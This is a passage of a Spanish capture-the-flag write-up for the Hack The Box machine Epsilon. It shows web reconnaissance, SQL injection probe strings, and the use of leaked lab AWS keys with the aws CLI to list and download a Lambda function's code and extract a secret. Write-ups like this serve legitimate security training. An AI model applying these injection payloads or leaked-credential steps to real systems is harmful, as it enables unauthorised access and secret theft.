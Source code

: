 ```console
└─$ whatweb http://cloud.epsilon.htb
[302 Found] Apache[2.4.41], -> RedirectLocation[http://cloud.epsilon.htb/403.html]
http://cloud.epsilon.htb/403.html -> [302 Found]
```
Hacemos una prueba con lo de antes 
```console 
└─$ curl -s -X POST http://cloud.epsilon.htb -d 'username=admin&password=admin'
# Nos lleva a error 403.html 
```
---------------------------------
## Parte 3: La web y AWS

La web **cloud.epsilon.htb** devuelve un 302 Error. La web del puerto 5000 tiene un panel de registro.  

![epsilon1](https://user-images.githubusercontent.com/96772264/201491393-79c4cc23-c19b-4e1f-a757-9b51e17cef82.PNG)

Ponemos admin:admin y no da resultado. Aun así parece ser la web del repo. 
La ruta **/home** nos devuelve al panel, la **/track** no.  

![epsilon2](https://user-images.githubusercontent.com/96772264/201491400-76d03eae-c729-495d-8df1-8ffd30a4aeae.PNG)

Mirando el codigo fuente no hay nada mas interesante:

Pero si le metermos un ID como pide nos lleva otra vez al panel del registro.
Las inyecciones SQL no funcionan ```admin' and 1=1-- -``` o ```admin' and sleep(5)-- -``` 

```python3
secret = '<secret_key>'  #  O sea puede ser alguna de las que tenemos
if verify_jwt(request.cookies.get('auth'),secret):
```
```console
└─$ curl -s http://10.10.11.134:5000/home --cookie "Auth: AQLA5M37BDN6FJP76TDC" -L | html2text
# Tampoco
```

Hay otro script en python en nuestro git **track_api_CR_148.py**, este no ha sufrido cambios ya que en el git diff
no ha salido nada de él (salvo que censuren la cookie).
Este funciona sobre **cloud.epsilon.htb**, y funciona con AWS lambda

AWS Lambda es un servicio que permite correr una aplicación (ej la tienda de antes de Flask) para no tener que 
depender de montar un servidor.

Para todo lo que tenga que ver con AWS se puede usar este comando **aws**. He tenido un problema con aws y python
por el tema de parentesis, lo solucione con ```sudo pip uninstall aws -> sudo pip install --upgrade awscli```
```console
└─$ aws configure
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]: json

└─$ aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb 
# "FunctionName": "costume_shop_v1"
└─$ aws lambda --endpoint-url=http://cloud.epsilon.htb get-function --function-name=costume_shop_v1
# Devuelve lo mismo basicamente, pero tambien la ruta
# http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
# "PackageType": "Zip"
└─$ curl -s http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code -O
└─$ mv code code.zip; unzip code
└─$ cat lambda_function.py
# Otro secreto -> secret='RrXCv`mrNe!K!4+5`wYq'
```